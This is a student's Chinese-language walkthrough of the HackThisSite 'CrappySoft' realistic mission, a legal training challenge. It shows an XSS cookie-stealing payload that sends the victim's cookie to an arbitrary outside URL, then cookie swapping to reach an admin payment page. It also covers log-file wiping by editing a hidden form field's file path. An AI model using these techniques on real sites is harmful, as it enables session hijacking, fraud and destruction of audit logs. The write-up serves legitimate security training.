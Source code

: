 CrappySoft Software!
===
### Realistic missions 第9題
#### 第2組 1051433 葛東昇

## 問題

From:

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## 問題-中文簡述

有人在找一個駭客，希望那個駭客能夠駭進公司的網站把薪水付給他，第一次進去公司的網站可以用他的帳號登進去。

## 解題流程
### Step 1
- 先點進題目中所提到的[website](http://www.hackthissite.org/missions/realistic/9/)，可以看到首頁。

![](https://imgur.com/jgMHHx5.png)

### Step 2
- 登入，完成後會進來這邊

![](https://imgur.com/NMgkH8l.png)

- 點選左邊的Pay Salaries之後發現沒有權限

![](https://imgur.com/aL4QT9o.png)


### Step 3
- 點選左邊的Private Message，並且使用XSS Attack手法取得老闆的cookie。
code : javascript:void(window.location=隨便一個網址+document.cookie)
![](https://imgur.com/suDHOEq.png)
![](https://imgur.com/ThwNXbS.png)

### Step 4
- 利用chrome外掛擴充功能，去更改網站的cookie內容，然後就發現能付薪水了。
點擊Pay之後，會發現一段提示文字告訴你要清除紀錄

![](https://imgur.com/DLV2nYy.png)
![](https://imgur.com/K9SOFHH.png)
![](https://imgur.com/1ukOFTP.png)

### Step 5
- 開始找尋log存放的路徑，發現如果點擊左邊的Demo會有一個可以點擊下載東西的路徑，
網址是[website](https://www.hackthissite.org/missions/realistic/9/files/downloads/CrappyDemo.exe.zip)
![](https://imgur.com/zbgFXcV.png)
- 砍掉後面的檔名會發現進到一個地方，並開始找尋log找到的地方，最後找到log存放的地方
網址是[website](https://www.hackthissite.org/missions/realistic/9/files/logs/logs.txt)
![](https://imgur.com/2avKq6x.png)
![](https://imgur.com/cL9rRm1.png)
![](https://imgur.com/HJon1vu.png)
![](https://imgur.com/uSPTn2Y.png)

### Step 6
- 再來是要解決如何清除log.txt裡面的內容，發現點擊左邊功能表的Mailing List，有一段關鍵的話，(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)
也就是說只要把不含@的文字送過去也可以把log清除掉
![](https://imgur.com/ALLFopK.png)

- 那段程式碼如下：
```Html
<div id="body">
 Here you can subscribe to our software newsletter.<br />
      The newest update's and changelog's will automaticly be mailed to you!<br />
      <br />
      <br />
      Enter your email address here:<br />

      (Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)<br />
      <br />
      <form action="subscribemailing.php" method="post">
       <input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">
       <input type="text" name="strEmailAddress" value="you@somedomain.com">
       <br />
       <input type="submit" value="Subscribe!">
      </form></div>
<div id="footer">&nbsp;</div>
</div>
```

- 將 input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt"裡的value改成./files/logs/logs.txt

- 並將input type="text" name="strEmailAddress" value="you@somedomain.com
的value改成一個沒有@的文字

- 最後在隨便亂打一個值並subsribe出去

![](https://imgur.com/M9LJwQb.png)



### 成功

![](https://imgur.com/Ly36nF3.png)

        


